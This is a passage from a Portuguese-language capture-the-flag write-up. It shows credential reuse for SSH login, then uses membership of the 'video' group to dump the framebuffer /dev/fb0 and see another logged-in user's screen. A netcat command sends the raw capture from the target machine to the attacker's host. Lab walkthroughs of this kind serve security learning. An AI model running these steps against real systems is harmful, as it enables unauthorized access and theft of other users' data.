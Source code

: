 Estas credenciais server para fazer login ao MySQL, mas se reutilizar-mos as credenciais para fazer login por ssh, vemos que as credenciais são válidas!

## 3.1. Group video

Esta máquina é um CaptureTheFlag LOL... O próximo passo é completamente irrealista, mas não deixa de ser interessante. Esta máquina não tem mais vulnerabilidades. Ok, então onde estão as credenciais do usuário "yossi"?! Estão no ecrã...

com o commando "w" podemos ver que o yossi está actualmente logado fisicamente na máquina

```bash
w
#>   22:31:32 up 10:23,  2 users,  load average: 0.00, 0.00, 0.00
#>  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
#>  yossi    tty1                      12:08   10:22m  0.06s  0.06s -bash
#>  moshe    pts/1    10.10.14.17      22:06    0.00s  0.06s  0.00s w
```

O usuário com o qual estamos neste momento (moshe) está no grupo "video". Os usuário deste grupo pode ver o que está a ser transmitido para o ecrã. E para tirar uma captura de ecrã sem nenhum recurso adicional, pode-se ir à fonte mesmo. Isto é, capturar o que está em /dev/fb0 com um simples cat. Para ler este arquivo (que vem em formato RAW), temos de saber as dimenções da tela, pois este formato não diz nada sobre dimenções, apenas escreve todos os dados numa linha só e "tá feito". As dimenções actuais do ecrã estão sempre definidas em /sy/class/graphics/fb0/virtual_size

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
#> 1176,885
```

Recupere a captura de ecrã para o kali

```bash
nc 10.10.14.17 443 < /tmp/screen.raw  # Target Machine
nc -lvnp 443 > screen.raw             # kali Machine
```

Abrir o ficheiro com ajuda do GIMP, definido manualmente que este ficheiro é um ficheiro RAW com 1176,885 de dimenções...
